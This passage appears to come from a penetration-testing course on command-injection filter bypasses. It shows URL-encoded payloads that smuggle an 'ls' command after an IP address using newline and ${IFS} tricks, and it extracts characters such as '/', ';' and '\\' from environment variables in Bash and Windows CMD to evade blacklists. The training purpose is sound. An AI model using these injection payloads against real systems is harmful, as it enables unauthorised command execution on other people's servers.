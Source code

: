 ```bash
```

**Practical Payload Size Impact:**
```http
# Long payload (explicit syntax): 127.0.0.1%0als%24%7bIFS%7d%24%7bPATH:0:1%7dhome
# Size: 49 characters

# Medium payload (mixed syntax): 127.0.0.1%0als%24IFS%24%7bPATH:0:1%7dhome  
# Size: 43 characters (6 chars saved)

# Short payload (when possible): 127.0.0.1%0als%24IFS%24HOME
# Size: 30 characters (19 chars saved)
```

### Advanced Character Extraction

**Extracting Multiple Characters:**
```bash
# Extract "/bin" from PATH
echo ${PATH:0:4}        # → /usr
echo ${PATH:5:8}        # → local/bi

# Extract specific patterns
echo ${PATH:10:4}       # → /usr (from different position)
```

**Dynamic Position Calculation:**
```bash
# Finding semicolon in LS_COLORS dynamically
var=${LS_COLORS}
pos=10
echo ${var:$pos:1}      # → ;
```

---

## Windows Character Extraction

### Windows Command Line (CMD)

**Understanding Windows Substring Syntax:**
`%VARIABLE:~start,length%` or `%VARIABLE:~start,end%`

**Extracting Backslash (\):**
```cmd
# View HOMEPATH contents
C:\htb> echo %HOMEPATH%
\Users\htb-student

# Extract backslash using position and negative length
C:\htb> echo %HOMEPATH:~6,-11%
\
```
